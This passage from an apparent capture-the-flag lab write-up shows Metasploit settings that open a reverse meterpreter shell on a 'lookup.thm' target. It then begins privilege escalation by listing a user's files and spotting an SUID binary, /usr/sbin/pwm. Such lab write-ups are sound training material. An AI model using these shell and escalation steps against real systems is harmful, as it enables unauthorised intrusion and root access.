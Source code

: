 
```
set RHOST files.lookup.thm
set LHOST <YOUR_IP>
set LPORT 1234
```
Run the exploit:

```
run
```

***We get meterpreter shell!!!***

![](Images/meterpreter_shell.png)

# 3. Privilege escalation

We can do a lot of things, like searching for user's home directories. We can see user “Think”. We can list his folder, and see ***.password*** file, but we can read it.

We can try “sudo -l”, Cronjobs... But only thing that stands out is ***SUID bit on “/usr/sbin/pwm” file***, which means we can run this command as root:

![](Images/suid_bit.png)

